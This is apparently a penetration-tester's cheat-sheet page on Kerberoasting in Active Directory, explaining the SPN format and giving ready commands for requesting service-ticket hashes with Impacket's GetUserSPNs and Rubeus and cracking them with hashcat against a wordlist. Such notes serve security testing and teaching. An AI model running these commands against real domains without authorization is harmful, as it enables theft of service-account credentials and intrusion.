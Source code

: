 # Kerberoasting

Targets service accounts in an Active Directory environment as an authenticated (but low privilege) user. This is done by requesting a service ticket from the TGS which is encrypted with the SPN's password hash. We can then crack the hash offline.

SPN format:

```bash
# Format
<service class>/<host>:<port>

# Examples
HTTP/web04.corp.com:80
```

Perform remotely with [GetUserSPNs](../../1%20Tools/Extra%20Impacket/GetUserSPNs.md)

```bash
impacket-GetUserSPNs -request -dc-ip $IP -outputfile hashes.kerberoast $DOMAIN/$USER
hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt --force
```

Perform locally with [Rubeus](../../1%20Tools/Local/Rubeus.md)

```
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```
